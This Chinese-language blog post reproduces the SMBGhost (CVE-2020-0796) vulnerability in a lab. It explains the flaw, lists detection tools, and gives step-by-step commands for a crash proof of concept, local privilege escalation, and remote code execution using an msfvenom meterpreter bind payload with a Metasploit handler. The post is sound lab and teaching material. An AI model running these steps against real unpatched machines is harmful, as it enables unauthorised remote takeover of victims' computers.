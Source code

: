 ```yaml
---
title: CVE-2020-0796 SMBv3 RCE漏洞检测+复现
date: 2020-06-09 20:11:40
categories: 
- 漏洞复现
tags: 
- 漏洞
- CVE-2020-0796
- RCE
- SMB
- POC
- 漏洞检测
---
```


## 漏洞简介
>2020年3月10日，微软在其官方SRC发布了CVE-2020-0796的安全公告（ADV200005，MicrosoftGuidance for Disabling SMBv3 Compression）,公告表示在Windows SMBv3版本的客户端和服务端存在远程代码执行漏洞。同时指出该漏洞存在于MicroSoft Server Message Block 3.1.1协议处理特定请求包的功能中，恶意伪造的压缩数据包 时出现的错误引发的，从而造成SMB服务器的缓冲区溢出,攻击者利用该漏洞可在目标SMB Server或者Client中执行任意代码。

### 概述 
>SMB 3.1.1协议中处理压缩消息时，对其中数据没有经过安全检查，直接使用会引发内存破坏漏洞，可能被攻击者利用远程执行任意代码。攻击者利用该漏洞无须权限即可实现远程代码执行，受黑客攻击的目标系统只需开机在线即可能被入侵。

<!--more-->

### 原理 
>漏洞存在于在srv2.sys驱动中，由于SMB没有正确处理压缩的数据包，在解压数据包的时候调用函数Srv2DecompressData处理压缩数据时候，对压缩数据头部压缩数据大小OriginalCompressedSegmentSize和其偏移Offset的没有检查其是否合法，导致其相加可分配较小的内存，后面调用SmbCompressionDecompress进行数据处理时候使用这片较小的内存可导致拷贝溢出或越界访问，而在执行本地程序的时候，可通过获取当前本地程序的token+0x40的偏移地址，通过发送压缩数据给SMB服务器，之后此偏移地址在解压缩数据时候拷贝的内核内存中，通过精心构造的内存布局在内核中修改token将权限提升。

### 影响范围
>漏洞不影响 win7，漏洞影响 Windows 10 1903 之后的各个 32 位、64 位版 Windows，包括家用版、专业版、企业版、教育版。
Windows 10 Version 1903 for 32-bit
Windows 10 Version 1903 for x64
Windows 10 Version 1903 for arm64
Windows 10 Version 1909 for 32-bit
Windows 10 Version 1909 for x64
Windows 10 Version 1909 for arm64
Windows Server 10 Version 1903 for server core installation
Windows Server 10 Version 1909 for server core installation

## 环境准备

### 环境搭建
攻击机：Kali Linux
:    IP：192.168.219.135
可以 ping 通 win10 虚拟机

靶 机：Windows 10 虚拟机 1909 x64 (专业版）
:    IP：192.168.219.142
关闭防火墙和 defender
1903 或者 1909 版本均可，我这里用的是1909版本

宿主机：Windows 7


### 环境要求
首先确认系统版本符合要求
![](1.png)
使用systeminfo确定下主机有没有打过这个补丁KB4551762
![](2.png)
关闭防火墙和 defender
![](3.png)

## 漏洞检测

### git脚本检测

> https://github.com/ollypwn/SMBGhost

检测返回的数据包中SMB压缩版本，这种检测方式打过补丁依然会误报。
![](4.png)
*PS:脚本适用python3，宿主机电脑中只有python2，稍微修改一下print即可*


### 奇信安检测工具

>http://dl.qianxin.com/skylar6/CVE-2020-0796-Scanner.zip

适用于局域网批量检测，快速查找未打补丁的机器。
![](5.png)

### 腾讯电脑管家SMB漏洞修复工具

>http://dlied6.qq.com/invc/QQPatch/QuickFix_SMB0796.exe

适用于个人用户检测，一键快速检测和修复。
![](6.png)

## 漏洞利用

### 蓝屏演示
蓝屏攻击POC:
>https://github.com/eerykitty/CVE-2020-0796-PoC

```
git clone https://github.com/eerykitty/CVE-2020-0796-PoC.git
python3 setup.py install
python3 CVE-2020-0796.py 192.168.219.142
```
安装脚本和依赖库
![](7.png)
依赖库安装成功后执行蓝屏攻击脚本
![](8.png)
攻击成功结果如下
![](9.png)

### 提权演示
本地提权POC:
>https://github.com/danigargu/CVE-2020-0796

文件编译结果执行文件有两个，一个动态的，一个静态的，动态的需要另外安装相关dll文件，我们直接执行静态提权程序，成功弹出更高的system权限命令执行窗口

![](10.png)

### RCE演示
远程利用POC:
>https://github.com/chompie1337/SMBGhost_RCE_PoC

1. Kali下载POC
```
root@kali:~/cve# git clone https://github.com/chompie1337/SMBGhost_RCE_PoC
root@kali:~/cve# cd SMBGhost_RCE_PoC
root@kali:~/cve/SMBGhost_RCE_PoC# ls
```
![](11.png)
*PS：该POC需要用python3环境执行*

2. 使用msfvenom生成payload，生成TXT文件便于后面修改
```
root@kali:~/cve/SMBGhost_RCE_PoC# msfvenom -p windows/x64/meterpreter/bind_tcp lport=1234 -f py -o 1.txt
```
![](12.png)

3. 将1.txt 生成的code中参数buf改为USER_PAYLOAD，然后替换到exploit.py中的USER_PAYLOAD参数。（顺序不要颠倒，否则执行会失败的，因为你在py全文替换buf的话，不小心会把代码中的全部的buf替换的）

![](13.png)
这里不要忘记字符串前面的二进制格式换`b""`不然脚本执行错误
![](14.png)


4. 新建一个终端，启动msf监听本地端口
```
root@kali:~# msfconsole

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set lport 1234
lport => 1234
msf5 exploit(multi/handler) > set rhost 192.168.219.142
rhost => 192.168.219.142
msf5 exploit(multi/handler) > exploit
```
![](15.png)

5. 运行exploit.py

```python3 exploit.py -ip 192.168.219.142```
![](16.png)

一开始没反应，试了好几次，最后成功反弹shell（大家尝试的时候多试几次，看网上其他大佬说很容易蓝屏，蓝屏没有遇到，只是前几次每次执行后没反应，然后发现win10卡死了，ping不通，重启靶机即可）
![](17.png)

## 参考

[CVE-2020-0796 检测及利用工具](https://www.cnblogs.com/xiaozi/p/13062533.html)